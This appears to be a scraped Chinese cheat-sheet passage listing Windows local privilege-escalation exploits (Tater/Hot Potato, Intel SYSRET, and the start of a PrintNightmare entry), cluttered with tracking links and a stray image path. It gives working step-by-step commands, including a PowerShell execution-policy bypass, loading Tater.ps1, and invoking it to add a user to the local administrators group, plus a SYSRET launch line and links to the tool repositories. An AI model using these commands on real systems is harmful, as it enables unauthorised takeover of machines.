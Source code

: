 域：No

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit

方法:

1.  命令提示符下: `[powershell](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=1&q=powershell&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiJwb3dlcnNoZWxsIiwiemhpZGFfc291cmNlIjoiZW50aXR5IiwiY29udGVudF9pZCI6MjM2NjIzNjAwLCJjb250ZW50X3R5cGUiOiJBcnRpY2xlIiwibWF0Y2hfb3JkZXIiOjEsInpkX3Rva2VuIjpudWxsfQ.1syoKbg5L_7oc_C0RH6E9M64IvVvS8CLU8h7i7GjsWY&zhida_source=entity).exe -nop -ep [bypass](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=1&q=bypass&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiJieXBhc3MiLCJ6aGlkYV9zb3VyY2UiOiJlbnRpdHkiLCJjb250ZW50X2lkIjoyMzY2MjM2MDAsImNvbnRlbnRfdHlwZSI6IkFydGljbGUiLCJtYXRjaF9vcmRlciI6MSwiemRfdG9rZW4iOm51bGx9.HN4iNsktrRtz-02zPyA1DrAth5gXTAUToYM33AMlOrk&zhida_source=entity)`
2.  在Power Shell提示符类型输入: `Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
3.  在Power Shell提示符类型输入: `Invoke-Tater -Trigger 1 -Command “net localgroup administrators user /add”`
4.  要确认攻击是否成功，请在 Power Shell 提示符中键入: `net localgroup administrators`

  

批注：[https://github.com/Kevin-Robertson/Tater](https://link.zhihu.com/?target=https%3A//github.com/Kevin-Robertson/Tater)

### **Intel SYSRET**

域：No

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit

方法:

1.  `execute -H -f sysret.exe -a "-pid [pid]"`

  

批注：[https://github.com/jajp777/sysret](https://link.zhihu.com/?target=https%3A//github.com/jajp777/sysret)

release版本：[https://github.com/jajp777/sysret/tree/master/x64/Release](https://link.zhihu.com/?target=https%3A//github.com/jajp777/sysret/tree/master/x64/Release)

### **PrintNightmare**

域：Yes

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit
